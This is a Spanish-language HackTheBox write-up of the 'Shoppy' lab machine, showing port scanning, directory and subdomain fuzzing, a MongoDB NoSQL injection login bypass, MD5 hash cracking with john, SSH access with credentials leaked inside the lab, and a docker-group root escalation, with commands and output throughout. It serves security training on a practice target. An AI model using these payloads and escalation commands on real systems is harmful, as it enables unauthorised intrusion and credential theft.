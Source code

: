 ```yaml
---
title: Shoppy WriteUp
author: H4ckerLite 
date: 2022-08-28 00:00:00 +0800
categories: [hackthebox, machine, writeup]
tags: [hackthebox, writeup]
pin: pin
image:
  path: ../../assets/img/commons/shoppy-writeup/Shoppy.png 
  alt: Shoppy WriteUp
---
```


Les explicaré comó comprometer la máquina [Shoppy](https://app.hackthebox.com/machines/496) de HackTheBox. En esta máquina nos enfretaremos a un `NoSQLi` de `MongoDB` y ganaremos acceso al sistema gracias a una contraseña filtrada y para la escalada nos vamos a aprovechar del grupo **Docker**.

## Escaneo NMAP

Antes de empezar les recomiendo hacer un escaneo para saber que puertos estan abiertos y que servicios corren por ellos, ya que esta información nos sera util para continuar con la prueba de penetración.

``````bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.180 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-15 11:59 -04
Initiating SYN Stealth Scan at 11:59
Scanning 10.10.11.180 [65535 ports]
Discovered open port 80/tcp on 10.10.11.180
Discovered open port 22/tcp on 10.10.11.180
Discovered open port 9093/tcp on 10.10.11.180
Completed SYN Stealth Scan at 12:00, 15.14s elapsed (65535 total ports)
Nmap scan report for 10.10.11.180
Host is up, received user-set (0.16s latency).
Scanned at 2023-01-15 11:59:53 -04 for 16s
Not shown: 65368 closed tcp ports (reset), 164 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
9093/tcp open  copycat syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.33 seconds
           Raw packets sent: 74269 (3.268MB) | Rcvd: 73540 (2.942MB)
``````


Nos percatamos que tiene el **SSH** abierto y el puerto 80 que corresponde al **HTTP**, al entrar a la web no vemos nada, ya que se esta aplicando virtual hosting, para soluci
onarlo hacemos lo siguiente:

```bash
echo "10.10.11.180       shoppy.htb" | tee -a /etc/hosts
```

Ahora debemos ver una web con una cuenta regresiva, nada importante

## Enumeración

Enumerando directorios con **WFUZZ** nos encontramos lo siguiente.
***Nota: Debes tener clonado el repositorio de*** **SecList**
```bash
❯ wfuzz -c --hc=404 -t 50 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://shoppy.htb/FUZZ  2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000053:   200        25 L     62 W       1074 Ch     "login"                                                                                                                
000000016:   301        10 L     16 W       179 Ch      "images"                                                                                                               
000000291:   301        10 L     16 W       179 Ch      "assets"                                                                                                               
000000259:   302        0 L      4 W        28 Ch       "admin"   
```
Nos encontramos con **/login** , intentamos accesder pero esta protegido por un login, podemos probar con una injección **SQL** pero la web no usa **SQL**

![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login.png' | relative_url }}){: .center-image }
_Login Shoppy_


Podemos probar `admin'||'1==1` y poner cualquier contraseña:


![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login1.png' | relative_url }}){: .center-image }
_Bypass Login _

Bingo!!! Ganamos acceso como administrador, en el buscador podemos repetir la injección.
![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/login2.png' | relative_url }}){: .center-image }

Nos sale una opción para descargar, cuando vemos el archivo vemos 2 usuarios y sus respectivos hashes. Creamos un archivo con los hashes y lo intentaremos crakear con john

```bash
echo "admin:23c6877d9e2b564ef8b32c3a23de27b2" > hashes
echo "josh:6ebcea65320589ca4f2f1ce039975995" >> hashes
❯ john -w:/usr/share/wordlists/rockyou.txt hashes --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (josh)
1g 0:00:00:02 DONE (2023-01-15 12:44) 0.4444g/s 6374Kp/s 6374Kc/s 6735KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed

```
Tenemos una contraseña, podemos buscar por subdominios a ver que nos encontramos



```bash
❯ gobuster vhost  -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://shoppy.htb/ -t 200
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb/
[+] Method:       GET
[+] Threads:      200
[+] Wordlist:     /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/01/15 12:48:41 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
Progress: 52985 / 100001 (52.98%)    
```

Tenemos un subdominio, la misma historia lo añadimos en el `etc/host`.


Al entrar en el web nos encontramos con esto
![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/josh.png' | relative_url }}){: .center-image }
_Login Mattermost_


Viendo las conversaciones nos dan un usuario y sus credenciales para el *SSH*, nos conectamos.
```bash
❯ ssh jaeger@10.10.11.180
jaeger@10.10.11.180's password: Sh0ppyBest@pp!
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jan 15 11:02:26 2023 from 10.10.14.26
manpath: can't set the locale; make sure $LC_* and $LANG are correct
jaeger@shoppy:~$ export TERM=xterm
jaeger@shoppy:~$ 
```
Una vez dentro podemso ver si tenemos un privilegio asignado a sudo, podemos ver podemos ejecutar como el usuario deploy un ejecutable 

## Enumeración del sistema

```bash
jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
jaeger@shoppy:~$ 

```
Jugando con XXD podemos ver que la contraseña se filtra, bingo ya descubrimos la contraseña, ahora lo ejecutamos como el usuario deploy


![Login Shoppy]({{ 'assets/img/commons/shoppy-writeup/xxd.png' | relative_url }}){: .center-image }
_Password-Manager_


```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:~$ 
```
Podemos migrar al usuario *Deploy* 


```bash
jaeger@shoppy:~$ su deploy
Password: Deploying@pp!
$ bash
deploy@shoppy:/home/jaeger$ 
deploy@shoppy:/home/jaeger$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
deploy@shoppy:/home/jaeger$ 

 ```

## Escalada de privilegios
Pertenecemos al grupo `docker`  mirando (GtfObins)[https://gtfobins.github.io/gtfobins/docker/#shell] podemos ver que podemos abusar del grupo **docker**
Ejecutamos el comando y nos da una shell como root

 ```bash
 deploy@shoppy:/home/jaeger$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
root@3ea87a82734f:/# 
@S4vitaar a mi me gustaban los dislikes, ahora tengo que usar una extension
 ```
Ganamos acceso root, ta rooteamos las máquinasahora podemos leer las flags.


```bash
root@3ea87a82734f:~# cat root.txt 
3d4c1a0477********************66
root@3ea87a82734f:~# cat /home/jaeger/user.txt 
3d97fe0060********************67
root@3ea87a82734f:~# 
```

